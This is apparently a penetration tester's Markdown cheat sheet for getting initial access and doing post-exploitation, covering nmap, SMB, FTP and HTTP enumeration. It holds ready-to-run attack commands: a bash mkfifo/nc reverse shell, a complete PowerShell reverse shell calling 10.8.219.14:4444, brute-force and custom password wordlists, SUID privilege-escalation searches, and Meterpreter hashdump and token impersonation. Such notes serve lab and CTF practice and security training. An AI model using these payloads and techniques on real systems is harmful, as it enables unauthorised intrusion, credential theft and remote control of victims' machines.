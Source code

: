 # Enumeration

Documenting different ways to uncover ways to gain intial access and exploiting them.

## Table of Contents

- [NMAP](#NMAP)
- [SMB](#SMB)
- [FTP](#FTP)
- [HTTP](#HTTP)

---------------------------------------------------------------------------

# NMAP

As an alternative you can use `rustscan -a <address>`

Normal scan: `nmap -vv -sV -Pn -A -T4 --script vuln <address>`
Long scan: `nmap -sV -Pn -A -T4 -p- <address>`

---------------------------------------------------------------------------

# SMB

## Initial Access

`smbmap -H <address>`
Check discovered directories in other places such as websites.
`smbclient -L <address> -U`
List all the directories in the share
Enumerate SMB via NMAP: `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <address>`

---------------------------------------------------------------------------

# FTP

## Initial Access

### Anonymous Login

`ftp <address>`
login: anonymous (no password required)

### NMAP Scripts

`nmap --script ftp-* -p 21 <address>`

## Brute Force

[ftp-betterdefaultpasslist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

## Investigation

### Download all files

`wget -m ftp://anonymous:anonymous@<address>`
`wget -m --no-passive ftp://anonymous:anonymous@<address>`

---------------------------------------------------------------------------

# HTTP

## Initial Access

### Directory Discovery

GoBuster: `gobuster dirb --url=<address> --wordlist=<wordlist>`
After running go buster manually explore some interesting directories, such as robots.txt.

### Password Discovery

If you are having trouble brute-forcing a password for a blog, try creating a custom wordlist with cewl:
`cewl -d 3 -m 7 -w <wordlist to export> <http://address.com>`

### Reverse Shells

See [Reverse Shells](/exploitation/reverse_shells) for more information.

---------------------------------------------------------------------------

## Post-Exploitation

### Check Services and Ports
Running Ports: `ss -natu`
Forwarding ports through ssh: `ssh -L <local port>:<remote address>:<remote port> <username>@<address>`

### Python
#### Reverse Shell Upgrade
`python -c 'import pty; pty.spawn("/bin/bash")'`

#### Simple HTTP Server
If you need to get a file over to a compromised server with curl installed:
`python3 -m http.server`

### Shell
#### SUID search
`find / -user root -perm -4000 -exec ls -ldb {} \;`
`find / -perm -u=s -type f 2>/dev/null`
BEST: `find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null`

If you find a binary that matches this, you can try running with the `-p` flag which allows you to run a binary as the owner.

EXAMPLE USES:
nmap -i
find <folder> -exec <command> \;

## Sneaky Reverse Shell Bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f
```

#### Find writable directories
`find -type d -writable`

#### Windows Migration
get a meterpreter session and find a process running as SYSTEM: `ps`
safest choice is to choose `services.exe`
`migrate <process id>`

#### Windows Passwords
within meterpreter session: `hashdump`

#### Using Powershell
`load powershell` then `powershell_shell`

#### Windows Token Exploitation
powershell `whoami /priv`
msf `load incognito`
`list_tokens -g` then `impersonate_token <name of token>`

## Tools
A series of a userful links:
- [Nishang](https://github.com/samratashok/nishang.git): A series of useful Windows Exploit scripts
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) Same as above

### Powershell Reverse Shell
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.219.14',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### Starting SMB Server
Navigate to folder to share

`python3 /usr/share/doc/impacket-scripts/examples/smbserver.py SHARE .`

### Starting FTP Server
Install `sudo apt-get install python3-pyftpdlib`

`python3 -m pyftpdlib -p 21`

### Powershell

- Search for command with name: `Get-Command *search_parameter*`
- Get all Parameters for a command: `(Get-Command Command).Parameters`
- Search for a file: `Get-ChildItem -Path C:\ -Include *title* -File -Recurse -ErrorAction SilentlyContinue`
- Search for files containing string: `Get-ChildItem C:\* -Recurse | Select-String -pattern search_string`
- Get list of running processes: `Get-Process`
